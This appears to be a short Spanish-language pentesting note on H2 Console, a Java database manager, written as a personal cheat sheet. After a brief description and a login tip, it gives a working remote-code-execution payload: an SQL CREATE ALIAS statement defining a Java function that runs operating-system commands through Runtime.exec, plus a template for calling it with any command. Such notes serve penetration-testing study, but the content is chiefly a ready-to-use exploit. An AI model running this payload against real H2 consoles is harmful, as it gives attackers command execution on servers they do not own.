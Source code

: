 ----
- Tags: #teoria #practica 
- -----
# H2 Console 
**H2 Console** es un sistema administrador de bases de datos relacionales porgramado en java. Puede ser incorporado en aplicaciones Java o ejecutarse de modo cliente-servidor. 

-----
# Explotación 

Puede ser interesante tener en cuenta a la hora de iniciar sesión en este servicio cambiar el path (Ya que en caso de estar en uso, puede tirarnos error de inicio de sesión siendo falso.)

![[possible_login_fix_h2_consoe.png]]
Ahora si, para abusar de este servicio web, podríamos inyectar la siguiente query SQL: 

```sql
CREATE ALIAS cmd AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
Una vez ejecutada la anterior sentencia, ahora podremos hacer uso de **cmd** como función para ejecutar comandos: 

```sql
call cmd('{command_to_execute}'); 
```

